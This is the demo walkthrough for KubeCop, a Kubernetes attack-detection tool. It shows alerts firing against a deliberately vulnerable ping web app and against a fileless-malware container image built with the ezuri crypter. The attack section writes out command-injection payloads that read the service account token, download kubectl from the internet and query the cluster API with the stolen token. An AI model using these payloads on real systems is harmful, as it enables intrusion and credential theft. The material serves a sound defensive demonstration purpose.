





# KubeCop Demo
This is a walkthrough of KubeCop, in this demo we will do the following:
1. Install KubeCop.
2. Deploy a sample web application and attack it.
3. Deploy fileless malware.
4. See how KubeCop detects the attacks.

With this demo you will be able to see how KubeCop works and how it can be used to detect and prevent attacks.
To learn more about KubeCop, see [here](../README.md).

## Table of Contents

- [Installation](#installation)
- [Deploy Web Application](#deploy-web-application)
- [Attack Web Application](#attack-web-application)
- [Attack Fileless Malware](#attack-fileless-malware)
- [Conclusion](#conclusion)


## Installation
To install KubeCop, you need to have a Kubernetes cluster up and running. In case you want to test it on your local machine you can use [Minikube](https://kubernetes.io/docs/tasks/tools/install-minikube/) or [Kind](https://kind.sigs.k8s.io/docs/user/quick-start/).

After you have a Kubernetes cluster up and running, you can install KubeCop by running the following commands:

```bash
git clone https://github.com/armosec/kubecop.git && cd kubecop
# Assuming AlertManager is running in service  "alertmanager-operated" in namespace "monitoring"
helm install kubecop chart/kubecop -n kubescape --create-namespace
```

You should be getting alerts after the learning period ends. The defult installation comes with a 15 minute learning period counted from the time KubeCop or the container starts.  

Try `kubectl exec` on one of the Pods after the learning period to test out anomaly detection!

### Getting alerts

One of the ways to get alert from KubeCop is to connect it an AlertManager. If you don't have AlertManager running, you can install it by running the following commands:
```bash
helm repo add prometheus-community https://prometheus-community.github.io/helm-charts
helm repo update
helm install alertmanager prometheus-community/kube-prometheus-stack -n monitoring --create-namespace
```

And enable it in KubeCop by running the following commands:
```bash
helm upgrade kubecop chart/kubecop -n kubescape --create-namespace --set kubecop.alertmanager.enabled=true --set kubecop.alertmanager.endpoint=alertmanager-operated.monitoring.svc.cluster.local:9093
```

To learn more about KubeCop installation, see [here](../README.md#basic-installation).
You can also enable other exporters, see [here](../README.md#advanced-parameter-configurations).

### Development install

If you want to use our script to setup a development cluster with KubeCop and AlertManager, run the following commands:
```bash
make build-image
chmod +x scripts/setup-system-test-cluster.sh
./scripts/setup-system-test-cluster.sh
```

**Once you have KubeCop installed, let's deploy a sample web application and attack it.**

## Deploy Web Application

To deploy a sample web application, run the following commands:

```bash
chmod +x demo/general_attack/webapp/setup.sh
./demo/general_attack/webapp/setup.sh
```

This will deploy a sample web application and a service to expose it.
You can access the web application by using a web browser and going to `http://<node-ip>:8080`.
You should see the following page:


Once you have the web application up and running, let's attack it and see how KubeCop detects the attack.

## Attack Web Application

Our web application is deliberatly made vulnerable to a [command injection](https://owasp.org/www-community/attacks/Command_Injection) attack.
The application is a "Ping service", it allows the user to ping a host, and it will return the output of the ping command.
Let's try to ping `1.1.1.1` and see the output.



Behind the scenes, the application is taking the IP from the form as a string and concatenates it to a command. Since there is no proper input sanitization we can use this to run arbitrary commands on the web application container and get the output.

Let's try to execute the `ls` command on the web application container.

```bash
1.1.1.1;ls
```

Great! We can see the output of the `ls` command, but we can also see that KubeCop detected the attack and sent an alert to AlertManager.



Navigate to AlertManager UI by going to `http://<node-ip>:9093` and you should see the following alert:
(You can also see the alert in the terminal where you ran `helm install`)


We can see that KubeCop raised two alerts, one for the unexpected command execution and one for the unexpected file activity.
We can see the details of the alerts such as the command that was executed and the file that was accessed and on which workload.

Now, let's try to run a more malicious command, let's try to get the service account token.

```bash
1.1.1.1;cat /run/secrets/kubernetes.io/serviceaccount/token
```

We can see that KubeCop detected the attack and sent an alert to AlertManager.

KubeCop detected the attack because it has a rule that identifies access to the service account token.

Next, let's try to download kubectl into the container and run it to get the pods in the cluster.

Execute the following commands one by one:
```bash
# Get the architecture of the node
1.1.1.1;arch=$(uname -m | sed 's/x86_64/amd64/g' | sed 's/aarch64/arm64/g')

# Download kubectl
1.1.1.1;curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/<node arch>/kubectl"

# Make kubectl executable
1.1.1.1;chmod +x kubectl

# Get the pods in the cluster
1.1.1.1;./kubectl --server https://kubernetes.default --insecure-skip-tls-verify --token $(cat /run/secrets/kubernetes.io/serviceaccount/token) get pods
```

You should see the following output:


We can see that KubeCop detected the attack and sent an alert to AlertManager.


KubeCop detected the attack because it has a rule that identifies kubernetes API server access from a container.

## Attack Fileless Malware
Let's deploy a fileless malware and see how KubeCop detects it.

To deploy the fileless malware, run the following commands:
This will deploy google's [demo-app](https://github.com/GoogleCloudPlatform/microservices-demo)
```bash
kubectl apply -f demo/fileless_exec/kubernetes-manifest.yaml
```
We have replaced one of the original images with a malicious image that runs a fileless malware.
Using the [ezuri crypter](https://github.com/guitmz/ezuri), we have encrypted the malware and embedded it in the image. (Don't worry, it doesn't run a real malicious malware 😉).

Let's see what has popped up in AlertManager.


We can see that KubeCop detected that an exec syscall was made from `/proc/self/fd/3` which is the file descriptor of the malware that resides in the container's memory.
This is a fileless malware, so we don't have any files to scan, but KubeCop still detected it.

## Conclusion
In this demo we saw how KubeCop can be used to detect and prevent attacks in Kubernetes.
We covered a few attacks, but KubeCop can detect many more attacks, see [here](../pkg/engine/rule/README.md) for the full list of supported rules and detection methods.
To learn more about KubeCop, see [here](../README.md).

If you have any questions, feel free to open an issue or contact us via [email](mailto:support@armosec.io) or [slack](https://cloud-native.slack.com/archives/C04EY3ZF9GE).

